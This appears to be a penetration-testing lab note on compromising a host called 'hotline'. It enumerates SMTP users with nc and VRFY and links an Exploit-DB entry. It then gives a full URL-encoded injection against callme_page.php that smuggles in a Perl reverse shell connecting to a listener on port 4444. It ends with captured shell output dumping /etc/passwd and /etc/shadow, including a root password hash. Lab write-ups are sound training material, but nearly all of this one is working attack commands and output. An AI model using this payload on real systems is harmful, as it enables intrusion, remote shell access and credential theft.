

https://www.exploit-db.com/exploits/36305/
root@kali:~/gen/smtp# nc -nv 10.11.1.217 25
(UNKNOWN) [10.11.1.217] 25 (smtp) open
220 hotline.localdomain ESMTP Postfix
vrfy root
252 2.0.0 root
vrfy bob
550 5.1.1 <bob>: Recipient address rejected: User unknown in local recipient table
vrfy kevin
550 5.1.1 <kevin>: Recipient address rejected: User unknown in local recipient table

https://10.11.1.217/recordings/misc/callme_page.php?action=c&callmenum=1000@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22%2710.11.0.175%27%3a%274444%27%22%29%3bSTDIN-%3Efdopen%28%24c%2cr%29%3b%24~-%3Efdopen%28%24c%2cw%29%3bsystem%24_%20while%3C%3E%3b%27%0D%0A%0D%0A

root@kali:~/gen/nc# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.11.0.175] from (UNKNOWN) [10.11.1.217] 51898
id
uid=100(asterisk) gid=101(asterisk)
dir
sess_07da12dkqujgdqige26p67qel0 sess_o6qnfdb1t2nn616rdcsflqe6c7
sess_i8kt093dkorafdfqojibtiq3j6 vmware-root
cd ..
ls
sess_07da12dkqujgdqige26p67qel0
sess_i8kt093dkorafdfqojibtiq3j6
sess_o6qnfdb1t2nn616rdcsflqe6c7
vmware-root
cd ..
cd /
ls
sess_07da12dkqujgdqige26p67qel0
sess_i8kt093dkorafdfqojibtiq3j6
sess_o6qnfdb1t2nn616rdcsflqe6c7
vmware-root
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
cat /etc/shadow
root:$1$uF5XC.Im$8k0Gkw4wYaZkNzuOuySIx/:16902:0:99999:7:::
vcsa:!!:15422:0:99999:7:::
pcap:!!:15422:0:99999:7:::
ntp:!!:15422:0:99999:7:::
cyrus:!!:15422:0:99999:7:::
dbus:!!:15422:0:99999:7:::
apache:!!:15422:0:99999:7:::
mailman:!!:15422:0:99999:7:::
rpc:!!:15422:0:99999:7:::
postfix:!!:15422:0:99999:7:::
asterisk:!!:15422:0:99999:7:::
rpcuser:!!:15422:0:99999:7:::
nfsnobody:!!:15422:0:99999:7:::
sshd:!!:15422:0:99999:7:::
spamfilter:!!:15422:0:99999:7:::
haldaemon:!!:15422:0:99999:7:::
xfs:!!:15422:0:99999:7:::
uname -a Linux hotline 2.6.18-238.12.1.el5 #1 SMP Tue May 31 13:23:01 EDT 2011 i686 i686 i386 GNU/Linux
cat /proc/version
Linux version 2.6.18-238.12.1.el5 (mockbuild@builder10.centos.org) (gcc version 4.1.2 20080704 (Red Hat 4.1.2-50)) #1 SMP Tue May 31 13:23:01 EDT 2011